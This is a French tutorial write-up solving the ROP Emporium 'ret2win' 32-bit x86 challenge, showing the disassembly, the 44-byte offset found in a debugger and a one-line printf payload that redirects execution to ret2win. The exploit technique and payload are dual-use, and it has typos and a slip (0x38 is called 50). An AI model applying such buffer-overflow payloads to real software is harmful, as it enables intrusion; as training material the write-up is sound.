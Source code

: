 ```yaml
---
Title: Ropemporium x86 ret2win
Date: 2023-06-10
Tags: [linux, python, ROP, x86, ropemporium, write-up]
Categories: [tutorial]
Author: cdpointpoint
---
```


# ret2win

## Introduction.

Cette article démarre une série consacrée à la résolution des challenges [ropemporium](https://ropemporium.com/challenge/ret2win.html).
Avec la version X86 donc 32 bits.

Pour rappel, l'execution de cette série nécessite l'installation des librairies 32 bits.

    sudo apt install libc6-i386


## Découverte.

Le programme a le même comportement que le programme x86_64.


    ret2win# ./ret2win32
    ret2win by ROP Emporium
    x86

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

    > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Thank you!

    Exiting



## Analyse.

### Indentification de l'offset de débordement

Regardons la fonction vulnérable.

``` assembly
gef➤  disas pwnme
Dump of assembler code for function pwnme:
   0x080485ad <+0>:	push   ebp
   0x080485ae <+1>:	mov    ebp,esp
   0x080485b0 <+3>:	sub    esp,0x28
   0x080485b3 <+6>:	sub    esp,0x4
   0x080485b6 <+9>:	push   0x20
   0x080485b8 <+11>:	push   0x0
   0x080485ba <+13>:	lea    eax,[ebp-0x28]
   0x080485bd <+16>:	push   eax
   0x080485be <+17>:	call   0x8048410 <memset@plt>
   0x080485c3 <+22>:	add    esp,0x10
   0x080485c6 <+25>:	sub    esp,0xc
   0x080485c9 <+28>:	push   0x8048708
   0x080485ce <+33>:	call   0x80483d0 <puts@plt>
   0x080485d3 <+38>:	add    esp,0x10
   0x080485d6 <+41>:	sub    esp,0xc
   0x080485d9 <+44>:	push   0x8048768
   0x080485de <+49>:	call   0x80483d0 <puts@plt>
   0x080485e3 <+54>:	add    esp,0x10
   0x080485e6 <+57>:	sub    esp,0xc
   0x080485e9 <+60>:	push   0x8048788
   0x080485ee <+65>:	call   0x80483d0 <puts@plt>
   0x080485f3 <+70>:	add    esp,0x10
   0x080485f6 <+73>:	sub    esp,0xc
   0x080485f9 <+76>:	push   0x80487e8
   0x080485fe <+81>:	call   0x80483c0 <printf@plt>
   0x08048603 <+86>:	add    esp,0x10
   0x08048606 <+89>:	sub    esp,0x4
   0x08048609 <+92>:	push   0x38
   0x0804860b <+94>:	lea    eax,[ebp-0x28]
   0x0804860e <+97>:	push   eax
   0x0804860f <+98>:	push   0x0
   0x08048611 <+100>:	call   0x80483b0 <read@plt>
   0x08048616 <+105>:	add    esp,0x10
   0x08048619 <+108>:	sub    esp,0xc
   0x0804861c <+111>:	push   0x80487eb
   0x08048621 <+116>:	call   0x80483d0 <puts@plt>
   0x08048626 <+121>:	add    esp,0x10
   0x08048629 <+124>:	nop
   0x0804862a <+125>:	leave
   0x0804862b <+126>:	ret
End of assembler dump.
```

La lecture se fait dans la sequence suivante.

    0x08048609 <+92>:	push   0x38
    0x0804860b <+94>:	lea    eax,[ebp-0x28]
    0x0804860e <+97>:	push   eax
    0x0804860f <+98>:	push   0x0
    0x08048611 <+100>:	call   0x80483b0 <read@plt>

En x86, le passage de paramètre se fait exclusivement sur la pile.
On a donc read(0, ebp-0x28, 0x38).

Le buffer des destination se trouve à $ebp - 40, on lit 50 (0x38) octets.
EN 32 bits la taille de la sauvegarde su registe EBP est de 4 octets donc on doit avoir un offset de déborde ment de 44.

    gef➤  b *pwnme+100
    Breakpoint 1 at 0x8048611


    gef➤  x/20xw $esp
    0xffc80000:	0x00000000	0xffc80010	0x00000038	0x00000004
                arg1        arg2        arg2 (size)
    0xffc80010:	0x00000000	0x00000000	0x00000000	0x00000000
                #buffer
    0xffc80020:	0x00000000	0x00000000	0x00000000	0x00000000
    0xffc80030:	0x080486f8	0x00000000	0xffc80048	0x08048590
                                        SEBP        SEIP
    0xffc80040:	0x00000001	0xffc80060	0x00000000	0xf7d6b295

ni
On evnvoie 44 caractères (avec le linefeed final)
AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEE

    gef➤  x/20xw $esp
    0xff90ad40:	0x00000000	0xff90ad50	0x00000038	0x00000004
    0xff90ad50:	0x41414141	0x41414141	0x42424141	0x42424242
    0xff90ad60:	0x42424242	0x43434343	0x43434343	0x44444343
    0xff90ad70:	0x44444444	0x44444444	0x0a454545	0x08048590
                                        SEBP ecrasé SEIP encode intact
    0xff90ad80:	0x00000001	0xff90ada0	0x00000000	0xf7d86295

On localise ret2win :

    gef➤  p ret2win
    $1 = {<text variable, no debug info>} 0x804862c <ret2win>

## Exploitation

Nous pourvons obtenir le flag avec uns simple ligne de commande en bash :

prinf "%44s" A envoie le bourrage initial

Ensuite on ajoute l'adresse de ret2win inversée du fait de la convention de traitement de entier littledian des processeurs intel.

    ret2win# printf "%44s\x2c\x86\x04\x08\x00" A |./ret2win32
    ret2win by ROP Emporium
    x86

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

    > Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}
    Segmentation fault (core dumped)






